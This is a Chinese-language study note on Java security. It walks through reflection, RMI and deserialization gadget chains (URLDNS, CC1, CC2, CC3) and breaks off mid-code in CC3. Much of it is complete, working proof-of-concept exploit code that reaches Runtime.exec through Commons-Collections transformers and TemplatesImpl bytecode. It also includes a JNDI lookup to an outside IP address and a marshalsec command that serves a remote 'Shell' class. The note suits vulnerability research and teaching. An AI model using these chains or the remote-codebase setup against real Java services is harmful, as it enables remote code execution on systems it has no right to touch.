Java安全

文章目录
Java反射
Java安全中最火的不过反序列化漏洞，而反序列化漏洞离不开反射。通过反射可以为Java附加上动态特性。
Java中获取java.lang.Class对象的三种方法如下：
- obj.getClass()
- Class.forName(“类的全路径”)
- Test.class
对于第二种方式，其方式相当于：
1 2 3 4 |
Class.forName(className); // 相当于： // 第二个参数为true意味着执行静态初始化块 Class.forName(className,true,currentLoader); |
此外，对于Java类种，初始化块的执行顺序为：先执行静态初始化块，再执行非静态初始化块，然后才是构造器 。
java.lang.Class对象的常用方法如下：
- clazz.newInstance()：调用这个类的无参构造器。不过不是每个类都有无参构造器；
- clazz.getMethod()：获取这个类的某个公有方法，因为函数存在重载，所以需要传入形参才能唯一确定获取的方法；
- method.invoke()：执行方法；对于这个函数的第一个参数，如果method是非静态方法，则第一个参数为类对象；如果method是静态方法，则第一个参数是类；
一个利用反射执行命令的demo入下所示：
1 2 3 4 5 |
@Test
public void test1() throws Exception {
Class<?> clazz = Class.forName("java.lang.Runtime");
clazz.getMethod("exec", String.class).invoke(clazz.getMethod("getRuntime").invoke(clazz),"mspaint");
} |
如果一个类没有无参构造器，且没有静态方法，如何通过反射实例化该类对象，一个例子如下所示：
其中需要注意： 调用newInstance的时候，因为这个函数本身接收的就是一个可变长参数，而我们传给ProcessBuilder构造器的也是一个可变长参数，二者叠加就是一个二维数组。
1 2 3 4 5 |
@Test
public void test2() throws Exception{
Class<?> clazz = Class.forName("java.lang.ProcessBuilder");
clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[][]{{"calc"}}));
} |
如果一个方法是私有的，如何执行，一个例子如下所示：
1 2 3 4 5 6 7 |
@Test
public void test3() throws Exception{
Class<?> clazz = Class.forName("java.lang.Runtime");
Constructor<?> constructor = clazz.getDeclaredConstructor();
constructor.setAccessible(true);
clazz.getMethod("exec", String.class).invoke(constructor.newInstance(),"mspaint");
} |
RMI
RMI全称是 Remote Mehtod Invocaton ，即远程方法调用，目的就是为了让某个java虚拟机上的对象调用另一个java虚拟机中对象上的方法，是Java独有的一种机制。
RMI主要存在三个组件：
- RMI Register
- RMI Server
- RMI Client
首先编写一个RMI Server：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 |
/**
* @author : p1n93r
* @date : 2021/3/30 15:37
* rmi服务端
*/
public class RmiServer {
/**
* 继承了Remote类才能进行远程方法调用
*/
public interface IRemoteHelloWorld extends Remote {
public String hello() throws RemoteException;
}
/**
* 远程对象，需要继承UnicastRemoteObject类
*/
public class RemoteHelloWorld extends UnicastRemoteObject implements IRemoteHelloWorld{
protected RemoteHelloWorld() throws RemoteException {}
@Override
public String hello() throws RemoteException {
System.out.println("我是远程RMI服务端....我正在执行hello()方法...");
return "Hello,I'm p1n93r.";
}
}
/**
* 开启RMI监听
*/
public void startRmiBinding() throws Exception{
RemoteHelloWorld obj = new RemoteHelloWorld();
LocateRegistry.createRegistry(1099);
Naming.bind("rmi://127.0.0.1/Hello",obj);
}
public static void main(String[] args) throws Exception {
new RmiServer().startRmiBinding();
}
} |
然后编写一个RMI Client调用远程方法测试一下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 |
/**
* @author : p1n93r
* @date : 2021/3/30 15:46
* RMI客户端
*/
public class RmiClient {
public static void main(String[] args) throws Exception {
String[] list = Naming.list("rmi://127.0.0.1");
System.out.println("RMI服务端所有的对象如下：");
for (String s : list) {
System.out.println(s);
}
//测试调用远程方法
System.out.println("=================================分隔符=====================================");
// 调用RemoteHelloWorld和hello()
Remote obj = Naming.lookup("rmi://127.0.0.1/Hello");
Class<? extends Remote> clazz = obj.getClass();
Object hello = clazz.getMethod("hello").invoke(obj);
System.out.println(hello);
}
} |
注意： hello()方法实际上实在RmiServer上执行的，RmiClient只是获取到了方法返回结果 。
运行截图如下所示：


RMI的主要组件示意图如下所示：

那么如何利用RMI进行攻击呢？
首先，如果我们可以访问RMI Register，那么我们可以遍历RMI Server上绑定的所有对象，然后探测这些对象的所有方法，如下demo所示：
1 2 3 4 5 6 7 8 9 10 11 12 13 |
@Test
public void test1() throws Exception{
String[] list = Naming.list("rmi://127.0.0.1");
ArrayList<Object> rmiObjs = new ArrayList<>();
for (String s : list) {
System.out.println(s);
Remote current = Naming.lookup("rmi:" + s);
rmiObjs.add(current);
}
rmiObjs.forEach(v->{
// TODO:探测远程对象的方法，进行恶意操作
});
} |
其次，如果我们可以控制lookup的地址和codebase(java低版本可以随意控制)，那么我们就可以利用RMI执行任意代码了，一个例子如下所示：
1 2 3 4 5 6 7 8 9 |
@Test
public void test2() throws Exception{
System.setProperty("java.rmi.server.useCodebaseOnly", "false");
System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
Context context = new InitialContext();
Object object = context.lookup("rmi://49.234.105.98/Hello");
System.out.println(object);
} |
RMI服务端则利用marshalsec攻击创建，如下所示：
1
|
java -cp marshalsec.jar marshalsec.jndi.RMIRefServer "http://49.234.105.98:8080/#Shell" 1099 |
Notice: 需要再开一个Http服务传递Shell.class文件

Java反序列化Gadget分析
URLDNS
先给出ysoserial中的利用链：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 |
/**
* @author : p1n93r
* @date : 2021/3/31 11:28
* URLDNS Gadget分析
*/
public class URLDNS {
public static Object getObject(final String url) throws Exception {
//Avoid DNS resolution during payload creation
//Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
URLStreamHandler handler = new SilentURLStreamHandler();
// HashMap that will contain the URL
HashMap ht = new HashMap();
// URL to use as the Key
URL u = new URL(null, url, handler);
//URL u = new URL(null, url);
//The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
ht.put(u, url);
// During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
Class<? extends URL> clazz = u.getClass();
Field hashCode = clazz.getDeclaredField("hashCode");
hashCode.setAccessible(true);
hashCode.setInt(u,-1);
return ht;
}
/**
* 防止创建payload的时候发送DNS解析请求
*/
static class SilentURLStreamHandler extends URLStreamHandler {
@Override
protected URLConnection openConnection(URL u) throws IOException {
return null;
}
@Override
protected synchronized InetAddress getHostAddress(URL u) {
return null;
}
}
public static void main(String[] args) throws Exception {
Object object = getObject("http://aa32z3.dnslog.cn");
SerialUtil.runPayload(object);
}
} |
SerialUtil.runPayload(object) 的代码如下，就是将构造的恶意对象进行序列化和反序列化操作：
1 2 3 4 5 6 7 8 |
public static void runPayload(Object object) throws Exception{
ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(outputStream);
objectOutputStream.writeObject(object);
objectOutputStream.close();
System.out.println(outputStream);
new ObjectInputStream(new ByteArrayInputStream(outputStream.toByteArray())).readObject();
} |
一些说明如下：
- 利用链中，实例化URL对象时，传入一个自定义的
SilentURLStreamHandler类对象，目的为了防止未反序列化前，执行了getHostAddress()方法。自定义的SilentURLStreamHandler重写了getHostAddress()方法，始终返回null，也没进行DNS解析请求，所以反序列化之前，不会进行DNS解析。 - 测试URLDNS攻击链，需要传入的url必须是域名格式的，否则不解析。因为是域名解析嘛，所以肯定得域名，ip是不支持的。
- URL类中的handler属性，是transient标识的，不进行序列化。反序列化时，从context中获取handler，所以即使URL对象中的handler属性是我们自定义的一个
SilentURLStreamHandler类对象，反序列化时仍能执行getHostAddress()方法。
调用栈如下所示：

调用栈分析如下：
java.util.HashMap#readObject入下所示，末尾 putVal(hash(key), key, value, false, false); 调用了 hash(key) ：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 |
private void readObject(java.io.ObjectInputStream s)
throws IOException, ClassNotFoundException {
// Read in the threshold (ignored), loadfactor, and any hidden stuff
s.defaultReadObject();
reinitialize();
if (loadFactor <= 0 || Float.isNaN(loadFactor))
throw new InvalidObjectException("Illegal load factor: " +
loadFactor);
s.readInt(); // Read and ignore number of buckets
int mappings = s.readInt(); // Read number of mappings (size)
if (mappings < 0)
throw new InvalidObjectException("Illegal mappings count: " +
mappings);
else if (mappings > 0) { // (if zero, use defaults)
// Size the table using given load factor only if within
// range of 0.25...4.0
float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
float fc = (float)mappings / lf + 1.0f;
int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
DEFAULT_INITIAL_CAPACITY :
(fc >= MAXIMUM_CAPACITY) ?
MAXIMUM_CAPACITY :
tableSizeFor((int)fc));
float ft = (float)cap * lf;
threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
(int)ft : Integer.MAX_VALUE);
// Check Map.Entry[].class since it's the nearest public type to
// what we're actually creating.
SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
@SuppressWarnings({"rawtypes","unchecked"})
Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
table = tab;
// Read the keys and values, and put the mappings in the HashMap
for (int i = 0; i < mappings; i++) {
@SuppressWarnings("unchecked")
K key = (K) s.readObject();
@SuppressWarnings("unchecked")
V value = (V) s.readObject();
putVal(hash(key), key, value, false, false);
}
}
} |
跟进java.util.HashMap#hash，如下所示，调用了 key.hashCode() ：
1 2 3 4 |
static final int hash(Object key) {
int h;
return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
} |
而此时的key为java.net.URL类对象，那么继续跟进java.net.URL#hashCode，如下所示，首先判断当前对象的hashCode是否等于-1，如果等于的话，则调用 hander.hashCode(this) ：
1 2 3 4 5 6 7 |
public synchronized int hashCode() {
if (hashCode != -1)
return hashCode;
hashCode = handler.hashCode(this);
return hashCode;
} |
继续跟进java.net.URLStreamHandler#hashCode，如下所示，可以看到调用了 getHostAddress(u) ：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 |
protected int hashCode(URL u) {
int h = 0;
// Generate the protocol part.
String protocol = u.getProtocol();
if (protocol != null)
h += protocol.hashCode();
// Generate the host part.
InetAddress addr = getHostAddress(u);
if (addr != null) {
h += addr.hashCode();
} else {
String host = u.getHost();
if (host != null)
h += host.toLowerCase().hashCode();
}
// Generate the file part.
String file = u.getFile();
if (file != null)
h += file.hashCode();
// Generate the port part.
if (u.getPort() == -1)
h += getDefaultPort();
else
h += u.getPort();
// Generate the ref part.
String ref = u.getRef();
if (ref != null)
h += ref.hashCode();
return h;
} |
继续跟进java.net.URLStreamHandler#getHostAddress，如下所示，调用了 InetAddress.getByName(host) ，至此整个利用链完毕：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 |
protected synchronized InetAddress getHostAddress(URL u) {
if (u.hostAddress != null)
return u.hostAddress;
String host = u.getHost();
if (host == null || host.equals("")) {
return null;
} else {
try {
u.hostAddress = InetAddress.getByName(host);
} catch (UnknownHostException ex) {
return null;
} catch (SecurityException se) {
return null;
}
}
return u.hostAddress;
} |
CC1
研究环境准备：
- JDK Version<=JDK8u66
- commons-collections 3.1
为了便于理解，先抽出ysoserial中的片段进行分析，首先抽出主要逻辑，如下，LazyMap进行get操作的时候，会触发Transformer操作，即可执行命令：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 |
@Test
public void test5(){
// 测试一下ChainedTransformer利用
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
});
HashMap<Object, Object> hashMap = new HashMap<>();
// 测试一下lazyMap
Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
lazyMap.get("test");
} |
但是如何触发LazyMap的get操作呢？ysoserial中是利用代理触发LazyMap#get，即通过代理对象的handler#invoke来调用LazyMap#get。下面是创建代理对象的关键代码：
1 2 3 4 5 6 7 8 9 10 |
// 将LazyMap封装在AnnotationInvocationHandler中，想办法触发AnnotationInvocationHandler#invoke方法，因为invoke方法内调用了lazyMap#get
Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);
// 如何调用AnnotationInvocationHandler#invoke方法呢？可以使用代理，将前面获取的AnnotationInvocationHandler对象作为代理的handler
// 那么只要调用代理对象的任何方法，都将触发AnnotationInvocationHandler对象的invoke方法
// 获取一个代理对象，将前面获取的AnnotationInvocationHandler实例作为代理对象的InvocationHandler
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler); |
获取了代理对象后，就可以将代理对象封装在AnnocationInvocationHanler对象中，作为整个反序列化的入口：
1 2 3 4 5 6 7 8 |
// 最后将proxyMap封装在AnnotationInvocationHandler对象中，作为反序列化入口
InvocationHandler res = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);
// 最后再把真正的Transformer传入chainedTransformer
Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass();
Field iTransformers = chainedTransformerClass.getDeclaredField("iTransformers");
iTransformers.setAccessible(true);
iTransformers.set(chainedTransformer,trueTransformer); |
完整的POC如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 |
@Test
public void test6() throws Throwable {
Transformer[] trueTransformer = {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
new ConstantTransformer(1)
};
// 使用ChainedTransformer，防止反序列化之前被执行，此时传入的不是真正的利用链。
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
new ConstantTransformer(1)
});
HashMap<Object, Object> hashMap = new HashMap<>();
// 获取lazyMap
Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
// 将LazyMap封装在AnnotationInvocationHandler中，想办法触发AnnotationInvocationHandler#invoke方法，因为invoke方法内调用了lazyMap#get
Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);
// 如何调用AnnotationInvocationHandler#invoke方法呢？可以使用代理，将前面获取的AnnotationInvocationHandler对象作为代理的handler
// 那么只要调用代理对象的任何方法，都将触发AnnotationInvocationHandler对象的invoke方法
// 获取一个代理对象，将前面获取的AnnotationInvocationHandler实例作为代理对象的InvocationHandler
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
// 最后将proxyMap封装在AnnotationInvocationHandler对象中，作为反序列化入口
InvocationHandler res = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);
// 最后再把真正的Transformer传入chainedTransformer
Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass();
Field iTransformers = chainedTransformerClass.getDeclaredField("iTransformers");
iTransformers.setAccessible(true);
iTransformers.set(chainedTransformer,trueTransformer);
// 序列化和反序化测试
ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
objectOutputStream.writeObject(res);
new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray())).readObject();
} |
这里给出调用栈，如下图所示：

Notice: Debug时候，发现Map(Proxy).entrySet()始终无法跳到这个断点，最后是在LazyMap#get中直接打上断点才调试到整个利用链的。
下面给出完整的利用链：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 |
Gadget chain:
ObjectInputStream.readObject()
AnnotationInvocationHandler.readObject()
Map(Proxy).entrySet()
AnnotationInvocationHandler.invoke()
LazyMap.get()
ChainedTransformer.transform()
ConstantTransformer.transform()
InvokerTransformer.transform()
Method.invoke()
Class.getMethod()
InvokerTransformer.transform()
Method.invoke()
Runtime.getRuntime()
InvokerTransformer.transform()
Method.invoke()
Runtime.exec()
Requires:
commons-collections |
这边再贴一个P神的原创POC，比ysoserial的要简单：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 |
@Test
public void test7() throws Exception{
// 用P神的链打一下
Transformer[] trueTransformer = {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
};
ChainedTransformer chainedTransformer = new ChainedTransformer(trueTransformer);
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("value","test");
Map evalMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, evalMap);
// 序列化和反序列化测试
SerialUtil.runPayload(handler);
} |
调用栈如下：

为啥JDK8u66之后的版本没法打了，查看AnnotationInvocationHandler类代码的变化，分析如下所示：

可以看到，更新后的代码中，如果使用P神的链，readObject中也不再调用TransformMap#set()方法了，所以P神的链也不能用。
CC2
先直接给出POC和分析：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 |
package com.pinger.javasec.ysoserial; import com.pinger.javasec.util.SerialUtil; import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl; import javassist.ClassClassPath; import javassist.ClassPool; import javassist.CtClass; import org.apache.commons.collections4.comparators.TransformingComparator; import org.apache.commons.collections4.functors.InvokerTransformer; import java.lang.reflect.Field; import java.util.PriorityQueue; /** * @author : p1n93r * @date : 2021/4/1 15:38 * CC2 Gadget研究 * CC2只对Commons-Collections4有效，3中TransformingComparator没实现序列化接口，无法序列化 */ public class CC2 { /** * 需要一个空类作为javassist的模板 */ public static class Placeholder {} public static Object getPayload() throws Exception{ String abstractTransletClassPath = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"; // 使用javassist生成一个恶意的类 ClassPool classPool = ClassPool.getDefault(); classPool.insertClassPath(new ClassClassPath(Placeholder.class)); classPool.insertClassPath(new ClassClassPath(Class.forName(abstractTransletClassPath))); CtClass placeholder = classPool.get(Placeholder.class.getName()); placeholder.setSuperclass(classPool.get(Class.forName(abstractTransletClassPath).getName())); // 这里insertBefore还是After都一样，反正都是在静态初始化块里写代码 placeholder.makeClassInitializer().insertBefore("java.lang.Runtime.getRuntime().exec(\"mspaint\");"); placeholder.setName("EvalClass"); // 得到恶意类的字节码 byte[] evalByte = placeholder.toBytecode(); TemplatesImpl templates = TemplatesImpl.class.getConstructor(new Class[0]).newInstance(); Class<? extends TemplatesImpl> clazz = templates.getClass(); // 将恶意字节码填充到TemplatesImpl对象中 Field bytecodes = clazz.getDeclaredField("_bytecodes"); bytecodes.setAccessible(true); bytecodes.set(templates,new byte[][]{evalByte}); // 还需要设置TemplatesImpl对象的_name属性，否则不能顺利执行：TemplatesImpl#getTransletInstance() Field name = clazz.getDeclaredField("_name"); name.setAccessible(true); name.set(templates,"p1n93r"); // 现在TemplatesImpl准备好了，需要一个类反序列化时触发：TemplatesImpl#newTransformer // 使用PriorityQueue类反序列化触发 PriorityQueue<Object> res = new PriorityQueue<>(2); // 为啥不在这个地方添加TemplatesImpl对象：因为add操作会触发比较，而TemplatesImpl没有实现Comparable接口 // 所以只能后面用反射进行添加了 res.add(1); res.add(1); // 现在将TransformingComparator和TemplatesImpl对象设置到PriorityQueue中， // 使得PriorityQueue反序列化时调用TransformingComparator#tranformer(templatesImpl)，从而触发整个利用链 Class<? extends PriorityQueue> resClazz = res.getClass(); // 先构造一个TransformingComparator InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", new Class[0], new Object[0]); TransformingComparator newTransformerComparator = new TransformingComparator(invokerTransformer); // 设置PriorityQueue的comparator Field comparator = resClazz.getDeclaredField("comparator"); comparator.setAccessible(true); comparator.set(res,newTransformerComparator); // 然后将TemplatesImpl对象设置到PriorityQueue中 Field queue = resClazz.getDeclaredField("queue"); queue.setAccessible(true); queue.set(res,new Object[]{templates,templates}); return res; } public static void main(String[] args) throws Exception{ Object payload = getPayload(); SerialUtil.runPayload(payload); } } |
调用栈入下所示：

最后的TemplatesImpl中的一些注意事项分析如下：

CC3
POC入下所示：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 |
package com.pinger.javasec.ysoserial; import com.pinger.javasec.util.SerialUtil; import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl; import javassist.ClassClassPath; import javassist.ClassPool; import javassist.CtClass; import org.apache.commons.collections.Transformer; import org.apache.commons.collections.functors.ChainedTransformer; import org.apache.commons.collections.functors.ConstantTransformer; import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter; import org.apache.commons.collections.functors.InstantiateTransformer; import org.apache.commons.collections.map.LazyMap; import javax.xml.transform.Templates; import java.lang.annotation.Retention; import java.lang.reflect.Constructor; import java.lang.reflect.Field; import java.lang.reflect.InvocationHandler; import java.lang.reflect.Proxy; import java.util.HashMap; import java.util.Map; /** * @author : p1n93r * @date : 2021/4/1 19:22 * CC3 Gadget分析 */ public class CC3 { /** * 需要一个空类作为javassist的模板 */ public static class Placeholder {} public static Object getPayload() throws Exception{ // 恶意的类需要继承此类，否则最终在TemplatesImpl#defineTransletClasses()会异常 String abstractTransletClassPath = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"; // 使用javassist生成一个恶意的类 ClassPool classPool = ClassPool.getDefault(); classPool.insertClassPath(new ClassClassPath(CC3.Placeholder.class)); classPool.insertClassPath(new ClassClassPath(Class.forName(abstractTransletClassPath))); CtClass placeholder = classPool.get(CC3.Placeholder.class.getName()); placeholder.setSuperclass(classPool.get(Class.forName(abstractTransletClassPath).getName())); // 这里insertBefore还是After都一样，反正都是在静态初始化块里写代码 placeholder.makeClassInitializer().insertBefore("java.lang.Runtime.getRuntime().exec(\"mspaint\");"); placeholder.setName("EvalClass"); // 得到恶意类的字节码 byte[] evalByte = placeholder.toBytecode(); // 